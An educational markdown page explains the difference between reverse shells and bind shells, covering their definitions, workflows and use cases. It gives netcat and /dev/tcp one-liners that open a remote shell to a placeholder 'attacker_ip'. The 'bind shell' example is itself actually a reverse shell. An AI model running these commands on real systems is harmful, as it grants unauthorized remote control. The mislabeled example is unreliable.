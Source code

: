 # ⏪ Reverse Shell & Bind Shell

## Reverse Shell vs Bind Shell: Understanding the Difference

In the realm of cybersecurity and ethical hacking, the concepts of reverse shell and bind shell play crucial roles in establishing unauthorized access or control over a target system. Both involve communication between an attacker's machine and the compromised system, but they differ in the way this communication is initiated. Let's delve into the details of reverse shell and bind shell to understand their characteristics, use cases, and potential risks.

### **Reverse Shell**

#### **Definition:**

A reverse shell involves the target system initiating a connection to the attacker's machine. The compromised system acts as a client, connecting back to the attacker's command and control server. This type of shell is useful when the target system is behind a firewall, and incoming connections to the compromised system may be restricted.

#### **How It Works:**

1. The attacker sets up a listener (a server) on their machine.
2. The malicious payload, often injected into the target system through an exploit or social engineering, establishes a connection back to the attacker's listener.
3. Once the connection is established, the attacker gains control over a shell on the target system.

#### **Use Cases:**

* Bypassing firewall restrictions: Since the connection is initiated from the target system, it can bypass incoming connection restrictions imposed by firewalls.
* Evading detection: Reverse shells can be less conspicuous as they rely on outbound connections, making them harder to detect than incoming connections.

<figure><img src="https://blog.finxter.com/wp-content/uploads/2020/07/reverseshell-1024x576.jpg" alt=""><figcaption></figcaption></figure>

#### **Example Payload:**

```bash
attacker$ nc -lvp 4444
victim$ bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

### **Bind Shell**

#### **Definition:**

A bind shell involves the attacker setting up a listener on the compromised system, waiting for an incoming connection. The attacker's machine acts as the client, connecting to the compromised system's listener. This type of shell is useful when the target system is not behind a restrictive firewall.

#### **How It Works:**

1. The attacker sets up a listener on their machine.
2. The malicious payload, once executed on the target system, starts a listener on the compromised system.
3. The attacker connects to the compromised system's listener, gaining control over a shell.

#### **Use Cases:**

* Direct access: Bind shells provide direct access to the compromised system's shell without relying on outbound connections.
* Firewall-friendly: In environments without strict firewall rules, bind shells are more straightforward to use.

<figure><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211213160846/BindShell-660x309.png" alt=""><figcaption></figcaption></figure>

#### **Example Payload:**

```bash
attacker$ nc -lvp 4444
victim$ nc -nv attacker_ip 4444 -e /bin/bash
```
